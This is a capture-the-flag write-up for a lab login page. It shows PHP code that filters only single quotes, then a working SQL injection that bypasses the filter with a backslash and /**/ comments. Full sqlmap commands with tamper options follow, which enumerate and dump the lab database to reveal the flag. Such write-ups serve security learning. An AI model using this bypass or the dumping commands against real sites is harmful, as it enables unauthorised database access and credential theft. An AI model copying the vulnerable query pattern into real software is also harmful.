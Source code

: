 # WRITEUP

See this. It filter quote.

```php
if (preg_match("/'/", $_POST['username']) || preg_match("/'/", $_POST['password']))
    die("Hack detected 😵😵😵");

$sql = "select username from users where username='" .$_POST['username'] ."' and password='" .$_POST['password'] ."'";
$sth = $conn->query($sql);
```

<br>
So then, <a href="https://minhtuanact.github.io/post/su-dung-cong-cu-sqlmap-voi-blind-sql-injection-cho-1-bai-ctf/">how can SQL injection bypass quote?</a><br>

Then answer is replace `'` > `\` and `space` > `/**/`.




```sql
select username from users where username='\' and password='OR/**/1=1#'

it same with

select username from users where username=''' and password='OR/**/1=1#'
```
OK, this payload bypass authentication but cannot dump database. 


<br>
Use SQLMap to exploit.

`-u`        &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: Target URL <br>
`--data`    &nbsp;&nbsp;&nbsp;: Data string to be sent through POST <br>
`-p`        &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;: Testable parameter(s) <br>
`--string`  : String to match when query is evaluated to True <br>
`--suffix`  : Injection payload suffix string <br>
`--tamper=space2comment.py`:    Use script replaces space character `(' ')` with comments `'/**/'` for tampering injection data

You can use this for list all tamper
```
# sqlmap --list-tampers
```


<br>

## Final Payload


```
# sqlmap -u http://shop.kid.cyberjutsu-lab.tech/login.php --data "username=\&password=" -p password --string="Doraemon" --suffix="#" --tamper=space2comment.py --dbs
...
available databases [2]:
[*] information_schema
[*] myDB
...
# sqlmap -u http://shop.kid.cyberjutsu-lab.tech/login.php --data "username=\&password=" -p password --string="Doraemon" --suffix="#" --tamper=space2comment.py -D myDB --tables
...
[7 tables]
+---------------+
| authors       |
| flag_304ad593 |
| posts         |
| roles         |
| user_post     |
| user_role     |
| users         |
+---------------+
...
# sqlmap -u http://shop.kid.cyberjutsu-lab.tech/login.php --data "username=\&password=" -p password --string="Doraemon" --suffix="#" --tamper=space2comment.py -D myDB -T flag_304ad593 --dump
...
[1 entry]
+-------------------------------------+
| flag_3e53dc                         |
+-------------------------------------+
| CTF{pleAs3_doNt_r3invent_th3_whe3L} |
+-------------------------------------+
...
```

> CTF{pleAs3_doNt_r3invent_th3_whe3L}

